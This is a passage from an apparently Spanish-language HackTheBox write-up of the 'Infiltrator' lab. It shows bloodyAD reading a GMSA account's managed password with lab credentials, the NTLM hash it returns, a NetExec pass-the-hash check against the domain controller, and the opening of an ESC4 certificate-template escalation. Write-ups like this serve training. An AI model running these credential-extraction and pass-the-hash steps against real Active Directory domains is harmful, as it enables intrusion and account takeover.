 A través de la herramienta de `bloodyAD`, procederemos a leer la contraseña del GMSA. Logramos obtener el hash NTLM del objeto en cuestión.

```bash
❯ bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -u 'lan_managment' -p 'l@n_M@an!1331' get object 'infiltrator_svc$' --attr msDS-ManagedPassword

distinguishedName: CN=infiltrator_svc,CN=Managed Service Accounts,DC=infiltrator,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:3ec423661d68dbda6c94ff25ff4d726b
msDS-ManagedPassword.B64ENCODED: z+LzYks13ZzAJQxIZgFbQCYsOroomLTBLYJhZKhD+gD+4zAwiKZe+vu8YrR44x20SQ/ytOmb2+1cq/BV6HeCl6IW50MjiLLLBEJh8xOH8ttUJ6SNjZ8iTq2lcG38EdSSQZE/iEpiIcmKa+QAAzPvwKrKYzU+IUsQYzw9mvrRpVTad46hZ7UZBV7o9LRDNUzwkVvO+pd69ou5Ut+l4ugcjp95iRe1of4vZE2Sd3UR3vdb9RQwfYz9O22pGD7FCXIuAXdeQssQNIqgyZJa+FyEVl5cVSJHm3Z7ZJ1AmIOmhtj3SgyAtVh0iYokhQKDRtxzwU3Y6lg9fijgfb41XkVtiw==
```

Validamos si podemos hacer un _**Pass-The-Hash**_ con este hash NTLM y el usuario, verificamos que logramos validar las credenciales correctamente.

```bash
❯ nxc smb dc01.infiltrator.htb -u 'infiltrator_svc$' -H '3ec423661d68dbda6c94ff25ff4d726b'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\infiltrator_svc$:3ec423661d68dbda6c94ff25ff4d726b
```

### ESC4 exploitation case with certipy-ad

Buscando vías potenciales de elevar nuestros privilegios, verificamos que este usuario, forma parte del grupo `Certificate Service DCOM Access`, lo cual nos replantea investigar si podemos abusar de los ADCS (Active Directory Certificate Services).

<figure><img src="../../../.gitbook/assets/3827_vmware_MGvRJk4XWu (1).png" alt=""><figcaption></figcaption></figure>

Con la herramienta de `certipy-ad` buscaremos si existe algún template que sea vulnerable. En este caso nos muestra que podemos efectuar el `ESC4`.
